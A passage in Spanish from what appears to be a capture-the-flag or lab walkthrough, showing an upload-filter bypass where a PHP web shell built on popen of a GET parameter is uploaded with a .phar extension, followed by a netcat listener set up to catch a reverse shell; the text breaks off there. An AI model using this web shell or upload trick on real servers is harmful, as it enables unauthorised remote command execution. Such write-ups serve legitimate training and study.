 ![access](Imagenes/44.png)

Vemos que la función popen está permitida, por lo tanto vamos a buscar como ejecutar comandos con ella:

https://www.php.net/manual/en/function.popen.php

NOTA: Utilizamos fread para visualizar la salida del comando

```php
<?php 
echo fread(popen($_GET['cmd'], "r"), 10000); 
?> 
```
![access](Imagenes/45.png)

Ahora si subimos el archivo con extensión .phar, vemos lo siguiente:

![access](Imagenes/46.png)

Como tenemos ejecución remota de comandos, vamos a enviarnos una shell:

```
netcat -lvnp 443
```
